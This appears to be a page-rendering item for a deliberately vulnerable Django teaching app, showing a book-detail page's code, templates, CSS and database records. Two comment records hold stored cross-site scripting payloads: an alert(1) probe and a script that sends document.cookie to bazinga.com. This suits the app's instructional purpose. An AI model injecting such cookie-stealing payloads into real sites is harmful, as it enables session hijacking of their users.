
The app's page /LearnVulapp/bookdetail/2 with its own data.
### LearnVulapp/models.py (models this page shows, shortened)
class Book(models.Model):
    title=models.CharField(max_length=200)
    pub_date = models.DateTimeField('date published')

class Comment(models.Model):
    book = models.ForeignKey(Book,related_name="comments", on_delete=models.CASCADE)
    nickname = models.CharField(max_length=200)
    body = models.TextField()

### LearnVulapp/views.py (the view)
# urls.py: path('bookdetail/<int:pk>',BookDetailView.as_view(),name="book_detail"),
class BookDetailView(DetailView):
    model = Book
    template_name = 'book_details.html'

### LearnVulapp/templates/book_details.html (shortened to what this page needs)
{% extends 'base.html' %}
{% load static %}
{%block content%}
<p><h1 style= 'color:white'>Topic:</h1><h2>{{book.title}}<small>Published on {{book.pub_date}}</small></h2></p>
<br>
<br>
<h2>Comments</h2>
{%if not book.comments.all %}
    No comments for this book...<a href='add_comment'> Add Comment</a>
{%else%}
<a href={%url 'add_comment' book.pk %}>Add Comment</a>
    {%for comment in book.comments.all%}
    <div class='comment-box'>
        <label><strong>Nickname: </strong>{{comment.nickname}}</label>
        <center>
        <p id= '{{comment.body}}' >{{comment.body}}</p>
        </center>
    </div>
    {%endfor%}
{%endif%}
<br><br>
<a href="{%url 'feed'%}"> Back </a>
{%endblock content%}

### LearnVulapp/templates/base.html (shortened to what this page needs)
{% load static %}
<!DOCTYPE html>
<html>
<head>
  <link rel="stylesheet" type="text/css" href="{% static "main.css" %}">
  <link rel="stylesheet" type="text/css" href="{% static "comment.css" %}">
</head>
<body>
  <header>
    <div class="container">
      <img src="{% static "logo.png" %}" alt="logo" class="logo" width="150">
      {%if user.is_authenticated %}
       <nav>
         <ul>
        <li><a href="{% url 'feed'%}">Home</a></li>
        <li><a href="{% url 'searchbar'%}">Search</a></li>
        <li><a href="{% url 'contact'%}">Contact</a></li>
          <!--
          <li><a href="#">Post</a></li>
          <li><a href="#">User</a></li>
          <li><a href="#">Logout</a></li>
         </ul>
         -->
       </nav>
      {%else%}
      <nav>
      <ul>
        <li><a href="{% url 'searchbar'%}">Search</a></li>
      </nav>
      {% endif %}
    </div>
  </header>
  <br><br>
  {% block content %}
  {% endblock %}
</body>
</html>

### LearnVulapp/static/main.css (style rules this page uses)
body { margin: 0; background: #222; font-family: 'Work Sans', sans-serif; font-weight: 800; }
.container { width: 80%; margin: 0 auto; }
header { background: #55d6aa; }
header::after { content: ''; display: table; clear: both; }
.logo { float: left; padding: 10px 0; }
nav { float: right; }
nav ul { margin: 0; padding: 0; list-style: none; }
nav li { display: inline-block; margin-left: 70px; padding-top: 23px; position: relative; }
nav a { color: #444; text-decoration: none; text-transform: uppercase; font-size: 14px; }
nav a::before { content: ''; display: block; height: 5px; background-color: #444; position: absolute; top: 0; width: 0%; transition: all ease-in-out 250ms; }

### LearnVulapp/static/comment.css (style rules this page uses)
.comment-box { width: 845px; padding: 20px; margin-bottom: 4px; background-color: #fff; border-radius: 4px; }

### records on screen
Book: title "Charlie and the Chocolate Factory / Roald Dahl", pub_date "Dec. 4, 2021, 6:02 p.m."
Comment: nickname "Johnny D.", body "Ooo. I have seen a movie abt that! That was nice, but I should read the book."
Comment: nickname "SheldonCooper", body "Hey Johnny we can be friends. BAZINGA!! I AM ALREADY FRIEND WITH STEPHAN HAWKING!!"
Comment: nickname "<script>alert(1)</script>", body "<script>alert(1)</script>"
Comment: nickname "<script>location.href=\"http://bazinga.com/hack_django_site.php?victim_data=\"+document.cookie</script>", body "<script>location.href=\"http://bazinga.com/hack_django_site.php?victim_data=\"+document.cookie</script>"
